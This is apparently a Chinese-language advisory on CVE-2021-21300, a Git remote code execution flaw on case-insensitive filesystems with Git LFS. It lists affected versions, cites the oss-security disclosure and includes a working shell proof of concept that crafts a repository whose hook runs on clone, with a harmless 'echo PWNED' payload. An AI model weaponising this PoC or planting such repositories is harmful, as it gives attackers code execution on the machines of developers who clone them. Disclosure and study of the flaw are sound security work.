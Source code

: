 # 

# Git for Visual Studio远程执行代码漏洞 CVE-2021-21300

## 漏洞描述

此漏洞影响具有不区分大小写的文件系统的平台，当某些过滤器被使用时（例如Git LFS）。Git可能会被欺骗运行克隆期间的远程代码。

## 漏洞影响

```
v2.17.6
v2.18.5
v2.19.6
v2.20.5
v2.21.4
v2.22.5
v2.23.4
v2.24.4
v2.25.5
v2.26.3
v2.27.1
v2.28.1
v2.29.3
v2.30.2
```

## 漏洞复现

参考文章: https://www.openwall.com/lists/oss-security/2021/03/09/3

## 漏洞POC

```bash
#!/bin/sh

git init delayed-checkout &&
(
  cd delayed-checkout &&
  echo "A/post-checkout filter=lfs diff=lfs merge=lfs" \
  	>.gitattributes &&
  mkdir A &&
  printf '#!/bin/sh\n\necho PWNED >&2\n' >A/post-checkout &&
  chmod +x A/post-checkout &&
  >A/a &&
  >A/b &&
  git add -A &&
  rm -rf A &&
  ln -s .git/hooks a &&
  git add a &&
  git commit -m initial
) &&
git clone delayed-checkout cloned
```
